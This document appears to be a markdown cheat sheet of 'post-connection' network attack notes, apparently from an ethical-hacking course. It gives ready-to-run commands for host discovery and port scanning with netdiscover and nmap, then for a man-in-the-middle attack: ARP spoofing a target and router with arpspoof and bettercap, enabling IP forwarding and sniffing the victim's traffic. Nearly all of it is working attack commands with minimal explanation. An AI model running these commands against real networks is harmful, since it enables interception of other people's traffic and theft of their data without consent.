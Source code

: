 ## Post-connection attacks
### Gathering information
#### Using netdiscover
```
netdiscover -r 192.168.0.1/24
```
#### Using nmap
Ping scan.
```
nmap -sn 192.168.0.1/24
```
Quick scan. Show open ports.
```
nmap -T4 -F 192.168.0.1/24
```
Quick scan plus. Show services and services versions, OS etc.
```
nmap -sV -T4 -O -F --version-light 192.168.0.1/24
```
Try more profiles in zenmap.
### Man in the Middle (MITM)
#### Using arpspoof
##### ARP spoofing (arpspoof)
To fool the victim.
```
arpspoof -i wlan0 -t [targetIP] [routerIP]
```
To fool the router.
```
arpspoof -i wlan0 -t [routerIP] [targetIP]
```
Keep running both commands.

Enable port forwarding.
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
#### Using bettercap
##### Start
```
bettercap -iface wlan0
```
What to do: type `help` or `help module_name`

##### Probing
Keep probing for new hosts.
```
net.probe on
net.recon on
```
To see hosts list.
```
net.show
```
##### ARP spoofing (bettercap)
```
set arp.spoof.fullduplex true
set arp.spoof.targets [targetIP]
arp.spoof on
```
##### Data sniffing
```
net.sniff on
```
